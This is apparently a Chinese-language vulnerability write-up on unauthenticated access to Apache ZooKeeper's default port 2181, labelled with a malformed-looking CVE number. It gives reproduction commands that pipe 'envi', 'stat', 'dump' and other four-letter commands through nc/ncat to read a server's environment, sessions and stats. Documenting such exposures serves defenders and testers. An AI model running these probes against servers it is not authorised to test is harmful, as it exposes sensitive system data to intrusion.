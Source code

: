 # Apache ZooKeeper 未授权访问漏洞 CVE-2014-085漏洞描述

## 漏洞描述

默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

```
Apache ZooKeeper
```

## 漏洞复现

Apache  ZooKeeper 默认开放 2181端口 ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![image-20220209122400884](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202091224952.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```
